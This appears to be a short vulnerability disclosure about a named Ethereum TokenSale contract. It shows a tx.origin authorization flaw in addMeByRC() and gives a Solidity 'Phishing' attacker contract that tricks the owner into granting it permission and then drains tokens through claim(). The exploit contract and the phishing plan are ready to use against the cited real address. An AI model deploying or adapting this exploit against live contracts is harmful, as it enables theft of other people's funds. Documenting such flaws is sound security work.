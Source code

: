 # address

https://etherscan.io/address/0x403E518F21F5Ce308085Dcf6637758C61f92446A#code

# vuln

```
    modifier onlyRC() {
        require( rc[msg.sender] ); //check if is an authorized rcContract
        _;
    }
    ...
    function addMeByRC() public {
        require(tx.origin == owner);
        
        rc[ msg.sender ]  = true;
        
        emit NewRC(msg.sender);
    }
    ...
    function claim(address _buyer, uint256 _amount) onlyRC public returns(bool) {
        return tokenContract.transfer(_buyer, _amount);
    }
```

In this contract, there is a function named addMeByRC() which can be exploited by phishing attacks to add the evil contract to the rc permission.

# attack

we can create a evil contract like this, and send the attack function‘s link to the owner of TokenSale contract.

```
contract Phishing {
    
    TokenSale tscontract = TokenSale(TOKENSALE_CONTRACT_ADDRESS);

    function attack() {
        tscontract.addMeByRC();
    }
    function trans() {
        tscontract.claim(0x627306090abaB3A6e1400e9345bC60c78a8BEf57,100);    
    }
    
}
```
when the owner click this link, the "require(tx.origin == owner)" was executed successfully，and then add our Phishing contract address to the rc permission. 

Then we can use the trans() to transfer the Token to any address.
